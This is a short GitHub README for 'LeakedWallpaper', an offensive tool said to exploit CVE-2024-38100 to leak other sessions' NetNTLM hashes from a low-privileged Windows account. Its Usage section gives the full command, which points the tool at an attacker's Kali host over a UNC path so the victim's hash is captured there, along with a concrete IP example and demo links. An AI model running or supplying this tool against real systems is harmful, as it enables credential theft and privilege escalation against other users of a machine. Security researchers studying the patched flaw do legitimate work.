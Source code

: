 # Leaked Wallpaper
This is a privilege escalation tool (fixed with CVE-2024-38100 in KB5040434) that allows us to leak a user's NetNTLM hash from any session on the computer, even if we are working from a low-privileged user.

# Usage

```shell
.\LeakedWallpaper.exe <session> \\<KALI IP>\c$\1.jpg

# Example
  .\LeakedWallpaper.exe 1 \\172.16.0.5\c$\1.jpg
```

# Demo
https://youtu.be/InyrqNeaZfQ

If blocked, see [demo.mkv](https://github.com/MzHmO/LeakedWallpaper/blob/main/demo.mkv)
